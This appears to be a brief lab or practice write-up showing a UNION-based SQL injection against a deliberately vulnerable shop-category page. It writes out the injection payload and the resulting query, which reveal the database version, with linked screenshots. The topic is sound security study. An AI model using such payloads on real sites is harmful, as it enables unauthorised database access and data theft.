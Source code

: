 This is a vulnerable page which will be conduct SQL Injection attack by query

SELECT * FROM someTable WHERE category=Gifts


![image](https://user-images.githubusercontent.com/65653010/235273796-6e284c0d-3450-4b87-845a-422a339ab40b.png)

Therefore I need to inject ' UNION SELECT 'a',@@version# to obtain the version information with the following query: 

SELECT * FROM someTable WHERE category='Gifts' UNION SELECT 'a',@@version#'

![image](https://user-images.githubusercontent.com/65653010/235273802-bbd568a8-5862-4c10-8b73-f078ec8be4e4.png)

This results in this output on the page: 
![image](https://user-images.githubusercontent.com/65653010/235427045-9bbf1185-2b59-4995-8c57-567261c8e7db.png)
